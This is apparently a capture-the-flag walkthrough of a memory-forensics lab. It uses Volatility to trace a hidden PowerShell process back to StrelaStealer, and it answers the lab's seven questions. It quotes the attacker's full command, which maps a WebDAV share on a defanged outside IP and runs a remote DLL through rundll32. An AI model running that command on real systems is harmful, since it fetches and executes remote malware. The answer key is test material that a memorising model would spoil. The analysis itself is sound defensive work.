










# Reveal – Memory Forensics (PowerShell and WebDAV Rundll32)

# Scenario & Objective

A workstation shows signs of compromise and a memory image was collected. I have to identify the suspicious process, how it loaded its payload and who is behind it.

- **Category**: Memory Forensics
- **Tools**: Volatility 3 (`windows.info`, `pslist`, `cmdline`, `malfind`, `getsids`), VirusTotal, MITRE ATT&CK

## Overview

A hidden PowerShell (PID 3692, parent PID 4120, running as `elon`) mapped a WebDAV share on `45[.]9[.]74[.]32:8888` and then ran `3435.dll` from it with `rundll32`. `malfind` also flags an RWX memory region in the same process. VirusTotal links the IP to `y3kaoz.exe`, which 44 of 70 vendors detect as StrelaStealer. The memory image was captured on 2024-07-15.

# Analysis

First I checked what I was dealing with. `windows.info` gives the image details.

    
  <em>Image 1: <code>windows.info</code></em>

In the process list I noticed a PowerShell next to the Edge processes. Then `windows.cmdline` for PID 3692 showed the interesting part: `powershell.exe -windowstyle hidden net use \\45[.]9[.]74[.]32@8888\davwwwroot\ ; rundll32 \\45[.]9[.]74[.]32@8888\davwwwroot\3435.dll,entry`. In plain words, it maps a WebDAV share and loads the exported function `entry` of `3435.dll` with rundll32, which is T1218.011.

    
  <em>Image 2: Process list including Edge and PowerShell</em>

    
  <em>Image 3: <code>cmdline</code> for PID 3692: <code>net use</code> over WebDAV and <code>rundll32 …3435.dll,entry</code></em>

`malfind` reports a `PAGE_EXECUTE_READWRITE` VAD in that same `powershell.exe`, so there is unpacked or injected code in its memory.

    
  <em>Image 4: <code>malfind</code>: RWX region in <code>powershell.exe</code> PID 3692</em>

`getsids` ties PID 3692 to the user `elon`.

    
  <em>Image 5: <code>getsids</code> for PID 3692</em>

For the infrastructure I looked up `45[.]9[.]74[.]32` (AS207569) and on VirusTotal it has 16 of 91 detections. Among the files that refer to it is `y3kaoz.exe` (SHA-256 `42ebff6e9f582a632153c478033b7bfa347bde87f7fe594e9f0729268cf30174`, 44/70), labelled StrelaStealer. I also noted the ATT&CK technique for the rundll32 execution.

    
  <em>Image 6: IP lookup for <code>45[.]9[.]74[.]32</code></em>

    
  <em>Image 7: VirusTotal IP page (16/91)</em>

    
  <em>Image 8: Files referring to the IP</em>

    
  <em>Image 9: VirusTotal file page for <code>y3kaoz.exe</code> (StrelaStealer)</em>

    
  <em>Image 10: MITRE ATT&amp;CK: T1218.011 Rundll32</em>

# Answer the Questions

**Q1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?**

`powershell.exe` (PID 3692).

**Q2: Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?**

`4120`

**Q3: Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?**

`3435.dll`

**Q4: Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?**

`davwwwroot`

**Q5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?**

`T1218.011` – System Binary Proxy Execution: Rundll32.

**Q6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?**

`Elon`

**Q7: Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?**

StrelaStealer

# References

- [Reveal lab walkthrough (ittechnetworkk)](https://ittechnetworkk.github.io/walkthroughs/reveallab)
